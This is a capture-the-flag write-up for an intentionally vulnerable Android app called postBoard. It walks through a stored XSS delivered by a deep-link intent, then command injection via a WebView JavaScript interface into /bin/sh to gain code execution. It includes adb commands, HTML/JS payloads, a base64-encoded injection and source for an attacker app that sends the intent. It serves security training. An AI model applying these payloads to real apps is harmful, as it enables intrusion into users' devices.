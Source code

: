 **Description**: Welcome to the **Android Insecure WebView Challenge**! This challenge is designed to delve into the complexities of Android's WebView component, exploiting a Cross-Site Scripting (XSS) vulnerability to achieve Remote Code Execution (RCE). It's an immersive opportunity for participants to engage with Android application security, particularly focusing on WebView security issues.

**Download**: https://lautarovculic.com/my_files/postBoard.apk
**Link**:https://www.mobilehackinglab.com/path-player?courseid=lab-webview

![[postBoard.png]]

Install the app with **ADB**
```bash
adb install -r postBoard.apk
```

So, a simple test with `<img src=asd onerror=alert('xss');>` it's work.
We can craft a **storaged XSS** in the app.
The way of find a **RCE**, is looking the **source code**.

Let's inspect the **source code** with **jadx**
We have the **MainActivity** exported that **handle an Intent**
```XML
<activity
    android:name="com.mobilehackinglab.postboard.MainActivity"
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
    <intent-filter>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data
            android:scheme="postboard"
            android:host="postmessage"/>
    </intent-filter>
</activity>
```

We can *post a message* with the following **ADB** command:
```bash
adb shell am start -a android.intent.action.VIEW \
-d "postboard://postmessage/<base64-Payload>" \
com.mobilehackinglab.postboard
```
But
**Why base64?**
We can see in the `handleIntent()` method
```java
private final void handleIntent() {
    Intent intent = getIntent();
    String action = intent.getAction();
    Uri data = intent.getData();
    if (!Intrinsics.areEqual("android.intent.action.VIEW", action) || data == null || !Intrinsics.areEqual(data.getScheme(), "postboard") || !Intrinsics.areEqual(data.getHost(), "postmessage")) {
        return;
    }
    ActivityMainBinding activityMainBinding = null;
    try {
        String path = data.getPath();
        byte[] decode = Base64.decode(path != null ? StringsKt.drop(path, 1) : null, 8);
        Intrinsics.checkNotNullExpressionValue(decode, "decode(...)");
        String message = StringsKt.replace$default(new String(decode, Charsets.UTF_8), "'", "\\'", false, 4, (Object) null);
        ActivityMainBinding activityMainBinding2 = this.binding;
        if (activityMainBinding2 == null) {
            Intrinsics.throwUninitializedPropertyAccessException("binding");
            activityMainBinding2 = null;
        }
        activityMainBinding2.webView.loadUrl("javascript:WebAppInterface.postMarkdownMessage('" + message + "')");
    } catch (Exception e) {
        ActivityMainBinding activityMainBinding3 = this.binding;
        if (activityMainBinding3 == null) {
            Intrinsics.throwUninitializedPropertyAccessException("binding");
        } else {
            activityMainBinding = activityMainBinding3;
        }
        activityMainBinding.webView.loadUrl("javascript:WebAppInterface.postCowsayMessage('" + e.getMessage() + "')");
    }
}
```
That there are a **base64** decode in the message.

But if we send a **malformed base64**, we can see a *cow* that say
![[postBoard2.png]]

Notice that **JavaScript** is enabled in the `setupWebView()` method
```java
webView.getSettings().setJavaScriptEnabled(true);
```

Inside of the app, we can see in the **resources directory**, that there are **two files**.
`cowsay.sh` and `index.html`.
The `index.html` file is the content of the **WebView**. And the `cowsay.sh` is the *error handler* when we send a *bad base-64*.

But, **why an `.sh` file?** well, if we pay attention in the **MainActivity.java** class, we can found another class: **`CowsayUtil`**
That have the following interesting code:
```java
public final String runCowsay(String message) {
    Intrinsics.checkNotNullParameter(message, "message");
    try {
        String[] command = {"/bin/sh", "-c", CowsayUtil.scriptPath + ' ' + message};
        Process process = Runtime.getRuntime().exec(command);
        StringBuilder output = new StringBuilder();
        InputStream inputStream = process.getInputStream();
        Intrinsics.checkNotNullExpressionValue(inputStream, "getInputStream(...)");
        Reader inputStreamReader = new InputStreamReader(inputStream, Charsets.UTF_8);
        BufferedReader bufferedReader = inputStreamReader instanceof BufferedReader ? (BufferedReader) inputStreamReader : new BufferedReader(inputStreamReader, 8192);
        try {
            BufferedReader reader = bufferedReader;
            while (true) {
                String it = reader.readLine();
                if (it == null) {
                    Unit unit = Unit.INSTANCE;
                    Closeable.closeFinally(bufferedReader, null);
                    process.waitFor();
                    String sb = output.toString();
                    Intrinsics.checkNotNullExpressionValue(sb, "toString(...)");
                    return sb;
                }
                output.append(it).append("\n");
            }
        } finally {
        }
    } catch (Exception e) {
        e.printStackTrace();
        return "cowsay: " + e.getMessage();
    }
}
```
Notice this command execution
```java
String[] command = {"/bin/sh", "-c", CowsayUtil.scriptPath + ' ' + message};
Process process = Runtime.getRuntime().exec(command);
```

Also, in **MainActivity** let's look how the **WebView** work.
```java
private final void setupWebView(WebView webView) {
    webView.getSettings().setJavaScriptEnabled(true);
    webView.setWebChromeClient(new WebAppChromeClient());
    webView.addJavascriptInterface(new WebAppInterface(), "WebAppInterface");
    webView.loadUrl("file:///android_asset/index.html");
}
```
We can see that the interface is called **WebAppInterface**. And is used in this piece of code:
```java
activityMainBinding2.webView.loadUrl("javascript:WebAppInterface.postMarkdownMessage('" + message + "')");
```

We can make an **methods enumeration** with this payload:
```html
<img src=asd onerror=alert(Object.keys(WebAppInterface))>
```
Output:
```bash
clearCache, getMessages, postCowsayMessage, postMarkdownMessage
```
I think that the `postCowsayMessage` is that we need to achieve RCE.

That is used under
```java
activityMainBinding.webView.loadUrl("javascript:WebAppInterface.postCowsayMessage('" + e.getMessage() + "')");
```
The `getMessage()` is `bad base-64` text.
We can try change this with
```html
<img src=asd onerror=WebAppInterface.postCowsayMessage('"hola"')>
```
Then, send an intent with a malformed base64
```bash
adb shell am start -a android.intent.action.VIEW \
-d "postboard://postmessage/lautarovculicCg==" \
com.mobilehackinglab.postboard
```

![[postBoard3.png]]

We can see that the **text has been changed**.
So, we can use `;` to execute a command?
```html
<img src="asd" onerror="WebAppInterface.postCowsayMessage('hola;id')"> 
```
Send it via **ADB**
```bash
adb shell am start -a android.intent.action.VIEW \
-d postboard://postmessage/PGltZyBzcmM9ImFzZCIgb25lcnJvcj0iV2ViQXBwSW50ZXJmYWNlLnBvc3RDb3dzYXlNZXNzYWdlKCdob2xhO2lkJykiPiA= \
-n com.mobilehackinglab.postboard/.MainActivity
```
Then, send an malformed base-64
```bash
adb shell am start -a android.intent.action.VIEW \
-d "postboard://postmessage/lautarovculicCg==" \
com.mobilehackinglab.postboard
```

![[postBoard4.png]]
And we got **RCE**!

You can **craft an app** with this **`MainActivity.java`** class
```java
package com.lautaro.executeboard;

import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;
import androidx.appcompat.app.AppCompatActivity;
import android.view.View;
import android.widget.Button;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Button sendIntentButton = findViewById(R.id.sendIntentButton);
        sendIntentButton.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View v) {
                // Craft Intent
                Intent intent = new Intent(Intent.ACTION_VIEW);
                intent.setData(Uri.parse("postboard://postmessage/PGltZyBzcmM9ImFzZCIgb25lcnJvcj0iV2ViQXBwSW50ZXJmYWNlLnBvc3RDb3dzYXlNZXNzYWdlKCdob2xhO2lkJykiPiA="));
                intent.setClassName("com.mobilehackinglab.postboard", "com.mobilehackinglab.postboard.MainActivity");
                
                // Send Intent
                startActivity(intent);
            }
        });
    }
}
```
And **`activity_main.xml`**
```XML
<?xml version="1.0" encoding="utf-8"?>
<RelativeLayout xmlns:android="http://schemas.android.com/apk/res/android"
    android:layout_width="match_parent"
    android:layout_height="match_parent"
    android:padding="16dp">

    <Button
        android:id="@+id/sendIntentButton"
        android:layout_width="wrap_content"
        android:layout_height="wrap_content"
        android:text="Send Intent" 
        android:layout_centerInParent="true"/>
</RelativeLayout>
```



I hope you found it useful (: